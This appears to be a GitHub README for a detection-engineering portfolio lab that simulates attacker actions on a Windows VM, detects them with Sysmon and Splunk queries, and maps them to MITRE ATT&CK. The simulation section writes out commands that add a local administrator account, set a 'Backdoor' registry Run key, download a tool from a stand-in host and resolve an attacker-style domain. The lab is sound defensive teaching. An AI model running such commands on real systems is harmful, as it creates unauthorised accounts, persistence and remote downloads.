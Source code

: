 # 🛡️ Sysmon + MITRE ATT\&CK Mapping Portfolio

This project demonstrates how to collect endpoint telemetry using Sysmon and detect adversary behaviors by mapping log events to MITRE ATT\&CK techniques. It simulates attacker behavior on a Windows 10 machine, collects logs, analyzes them, and documents how each maps to a technique in the MITRE ATT\&CK framework.

---

## 🧰 Lab Setup

### Tools Used:

* **Windows 10 VM** (with Sysmon installed)
* **Sysmon**: for process, registry, network, and DNS logging
* **Splunk** (or Event Viewer): log analysis
* **MITRE ATT\&CK Framework**: behavior mapping
* Optional: **Sigma Rules** for detection logic

### Architecture:

```
[Windows 10 VM] -- Sysmon logs --> [Log Analyzer (Splunk/Event Viewer)] --> [MITRE ATT&CK Mapping]
```

---

## 🔧 Installation and Configuration

### Step 1: Install Sysmon

```powershell
sysmon64.exe -accepteula -i sysmonconfig-export.xml
```

### Step 2: Simulate Attacker Behaviors

Run safe commands to mimic common threats:

1. **Encoded PowerShell**:

```powershell
powershell -enc aGVsbG8=
```

MITRE: T1059.001 (PowerShell Execution)

2. **New Admin Account Creation**:

```powershell
net user redteam Pass123! /add
net localgroup administrators redteam /add
```

MITRE: T1136 (Create Account)

3. **Registry Persistence**:

```powershell
reg add HKCU\... /v Backdoor /d C:\malware.exe
```

MITRE: T1547.001 (Registry Run Keys)

4. **File Download via PowerShell**:

```powershell
Invoke-WebRequest http://example.com/tool.exe -OutFile tool.exe
```

MITRE: T1105 (Ingress Tool Transfer)

5. **DNS Beaconing**:

```powershell
nslookup attacker.testdomain.com
```

MITRE: T1071.004 (DNS Communication)

---

## 🔍 Detection Queries (Splunk)

* **PowerShell Encoded Command**:

```spl
index=sysmon EventCode=1 CommandLine="* -enc *"
```

* **Registry Autorun Keys**:

```spl
index=sysmon EventCode=13 TargetObject="*Run*"
```

* **DNS Lookups**:

```spl
index=sysmon EventCode=22 QueryName="*.testdomain.com"
```

---

## 📊 MITRE Mapping Table

| # | Behavior                 | Sysmon Event ID | MITRE Technique ID | Description              |
| - | ------------------------ | --------------- | ------------------ | ------------------------ |
| 1 | Encoded PowerShell       | 1               | T1059.001          | PowerShell execution     |
| 2 | Registry Run Key         | 13              | T1547.001          | Persistence via registry |
| 3 | New User Account         | 1               | T1136              | Account creation         |
| 4 | File Download via Script | 1, 11           | T1105              | Remote tool delivery     |
| 5 | DNS Query                | 22              | T1071.004          | DNS C2 communication     |

---

## 🗂️ Project Structure

```
Sysmon-MITRE-Mapping/
├── README.md
├── sysmon_config/
│   └── sysmonconfig-export.xml
├── simulated_attacks/
│   └── attack_scripts.ps1
├── mapping/
│   └── mitre_mapping_table.md
├── splunk_queries/
│   └── detection_queries.md
├── screenshots/
│   └── powershell_detected.png
```

---

## ✅ Skills Demonstrated

* Endpoint telemetry collection
* Simulated adversarial techniques
* Log analysis using SPL
* Detection engineering
* MITRE ATT\&CK alignment
* SOC documentation

---

## 👨‍💻 Author

**Ajao Ibrahim Adewale**
Google Cybersecurity Certificate Holder
\[GitHub Profile Link Placeholder]
